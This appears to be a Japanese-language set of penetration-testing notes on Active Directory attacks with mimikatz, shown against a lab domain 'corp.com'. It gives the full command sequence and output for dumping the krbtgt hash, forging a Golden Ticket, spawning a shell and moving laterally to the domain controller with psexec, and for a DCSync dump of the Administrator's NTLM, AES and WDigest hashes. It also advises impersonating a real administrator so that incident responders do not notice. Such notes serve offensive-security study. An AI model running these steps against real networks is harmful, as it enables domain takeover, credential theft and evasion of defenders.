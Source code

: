 ### Golden Tickets

ユーザーがTGTのリクエストを送信するとき、 KDCはドメイン内のKDCだけが知っている秘密鍵でTGTを暗号化する

この秘密鍵は、実際には`krbtgt`.1というドメインユーザーアカウントのパスワー ドハッシュである

* DCでkrbtgtの認証情報をダンプする

  ```cmd
  privilege::debug
  lsadump::lsa /patch
  
  ---
  Domain : corp / S-1-5-21-4038953314-3014849035-1274281563
  ・・・・
  RID  : 000001f6 (502)
  User : krbtgt
  LM   :
  NTLM : fc274a94b36874d2560a7bd332604fab
  ```

* workstationでゴールデンチケットを作成する（管理者権限不要）

  ```cmd
  kerberos::purge
  kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /krbtgt:fc274a94b36874d2560a7bd332604fab /ptt
  ```

  * SIDはドメインのSIDを指定
  * ユーザー名は任意

  存在しないユーザー名を使用すると、インシデントハンドラがアクセスログを確認する際に警告を発する可能性がある。既存のシステム管理者の名前とIDを使用することを検討

  ```cmd
  User      : fakeuser
  Domain    : corp.com (CORP)
  SID       : S-1-5-21-4038953314-3014849035-1274281563
  User Id   : 500
  Groups Id : *513 512 520 518 519
  ServiceKey: fc274a94b36874d2560a7bd332604fab - rc4_hmac_nt
  Lifetime  : 1/13/2023 4:22:09 PM ; 1/10/2033 4:22:09 PM ; 1/10/2033 4:22:09 PM
  -> Ticket : ** Pass The Ticket **
  
   * PAC generated
   * PAC signed
   * EncTicketPart generated
   * EncTicketPart encrypted
   * KrbCred generated
  
  Golden ticket for 'fakeuser @ corp.com' successfully submitted for current session
  ```

  ユーザーIDはデフォルトで500に設定されており、ドメインのビルトイン管理者のRID。

  グループIDの値は、ドメイン管理者グループを含む、Active Directoryの最も特権的なグループから構成されている

* misc::cmdで新しいコマンドプロンプトを起動

  ```
  misc::cmd
  
  ----
  mimikatz # misc::cmd
  Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF72DEC95E0
  ```

  →新しいコマンドプロンプトが立ち上がる

* 横展開する

  ```
  psexec.exe \\dc01 cmd.exe
  ```

  ※ドメインコントローラの IP アドレスに接続すると、代わりに NTLM 認証の使用を強制されアクセスできないため注意




### Domain Controller Synchronization

ドメイン内のすべての管理ユーザーのパスワードハッシュを盗む

本番環境では、ドメインは通常、冗長性を確保するために複数のドメインコントローラーを持つ

Replication Service Remote Protocol2 は、これらの冗長ドメインコントローラーを同期させるために、レプリケーション3 を使用する

* DomainAdminsの権限を持つユーザでworkstationに接続しリモートでDCに認証情報要求を行う

```
lsadump::dcsync /user:Administrator

----
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'corp.com' will be the domain
[DC] 'DC01.corp.com' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/5/2020 2:52:18 PM
Object Security ID   : S-1-5-21-4038953314-3014849035-1274281563-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
    ntlm- 0: 2892d26cdf84d7a70e2eb3b9f05c425e
    ntlm- 1: e2b475c11da2a0748290d87aa966c327
    lm  - 0: 10278caec71cb826cf1f7fb66b1db394

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 77e41762fdeeba7397ed7de067db9898

* Primary:Kerberos-Newer-Keys *
    Default Salt : CORP.COMAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 00d4b643098e57bb9cc595dd841dbc06ad3c0f9ca8b3e79411f2281189f6a75f
      aes128_hmac       (4096) : f4dba803925bc55a209b73f31a25038f
      des_cbc_md5       (4096) : c18c4c0e898fad10

* Primary:Kerberos *
    Default Salt : CORP.COMAdministrator
    Credentials
      des_cbc_md5       : c18c4c0e898fad10

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  4d2c6490dc8fcbbbde2d7776d7350e20
    02  ce49447866092118cd64e2e59bbb6fa9
    03  fc305e248608a0c9078c5e6d41dd0ffa
    04  4d2c6490dc8fcbbbde2d7776d7350e20
    05  a4f514f32121594731029e5054de9790
    06  8cb07b3d2109fda2aad7d4ee1ed34a90
    07  844e1e97ced9b7cbaf55e2e8a80e991e
    08  4dac9c56bd48bf351fabf9bb5478350a
    09  dc9f5ff4037bdebe12b111f69fb44552
    10  5ef1c4be0eb2b39744b836620704e5ee
    11  91a018785e77c1111cb446dd970f33ef
    12  4dac9c56bd48bf351fabf9bb5478350a
    13  9b66f1b0d81ba42eb0f370b4f13c6333
    14  b35c42dfafc13b676cdb120e0ef9b396
    15  fa2de75f3ab56f566154d84b5119cf8a
    16  4511aea07897fc3c573235c11abd885b
    17  c9e681f424024cda7b41df9e910a949a
    18  53be72294715f429eec062b17862745f
    19  ffe64495c6ef5f57ea288ec79e666859
    20  71c730c6b62b7d04564f74f4e69770c2
    21  ed456d4a98632e2e9b25148acf0f4503
    22  645fb02c92483bef47ddf6a8b8c00f7c
    23  4db1e6c8f4117f0e830bb61a013ce2cc
    24  a114d5d35435e8d9b84e1cec32097751
    25  09b9d6104028176c2e76bd6c69d59ab0
    26  1745423a33c7bcb6ebc851cc1ac1ebfa
    27  6d15282ea9f5e445e083f10423d0de87
    28  e9720ced80fd81f4965d8e5060f0c3ae
    29  52a84bf0fa72c9bc3f2a7b939750f5b1
```

過去29回分のユーザーパスワードに関連する複数のハッシュと、AES暗号化で使用されるハッシュが含まれている



